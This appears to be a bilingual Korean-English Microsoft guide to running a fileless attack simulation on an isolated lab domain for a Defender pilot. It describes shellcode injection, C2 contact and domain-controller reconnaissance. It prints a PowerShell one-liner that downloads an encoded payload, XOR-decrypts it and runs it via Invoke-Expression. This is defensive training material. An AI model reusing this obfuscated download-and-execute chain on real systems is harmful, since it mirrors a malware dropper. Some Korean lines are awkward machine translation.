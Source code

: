 <span data-ttu-id="03e09-173">시뮬레이션하는 동안 공격은 셸코드를 무고한 프로세스에 주입합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-173">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="03e09-174">이 시나리오에서는 이 시나리오를 사용하려면 notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="03e09-174">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="03e09-175">시뮬레이션을 위해 이 프로세스를 선택했지만 공격자는 추가와 같은 장기 실행 시스템 프로세스를 대상으로 할 svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="03e09-175">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="03e09-176">그런 다음 셸 코드는 공격자 명령 및 제어(C2) 서버에 연결하여 진행 방법에 대한 지침을 수신합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-176">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="03e09-177">스크립트는 DC(도메인 컨트롤러)에 대해 정비 쿼리 실행을 시도합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-177">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="03e09-178">정비를 통해 공격자는 최근 사용자 로그인 정보에 대한 정보를 얻을 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-178">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="03e09-179">공격자가 이 정보를 가지면 네트워크에서 을(를) 이동하여 특정 중요한 계정으로 이동할 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-179">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="03e09-180">최적의 결과를 얻기 위해 가능한 한 공격 시뮬레이션 지침을 따르세요.</span><span class="sxs-lookup"><span data-stu-id="03e09-180">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a><span data-ttu-id="03e09-181">격리된 AD DS 도메인 컨트롤러 공격 시뮬레이션 실행</span><span class="sxs-lookup"><span data-stu-id="03e09-181">Run the isolated AD DS domain controller attack simulation</span></span>

<span data-ttu-id="03e09-182">공격 시나리오 시뮬레이션을 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-182">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="03e09-183">파일럿 환경에 격리된 AD DS 도메인 컨트롤러와 장치 Windows 10 확인합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-183">Ensure that your pilot environment includes the isolated AD DS domain controller and Windows 10 device.</span></span>

2. <span data-ttu-id="03e09-184">테스트 사용자 계정을 사용하여 테스트 장치에 로그인합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-184">Sign in to the test device with the test user account.</span></span>

3. <span data-ttu-id="03e09-185">테스트 Windows PowerShell 창을 여십시오.</span><span class="sxs-lookup"><span data-stu-id="03e09-185">Open a Windows PowerShell window on the test device.</span></span>

4. <span data-ttu-id="03e09-186">다음 시뮬레이션 스크립트를 복사합니다.</span><span class="sxs-lookup"><span data-stu-id="03e09-186">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

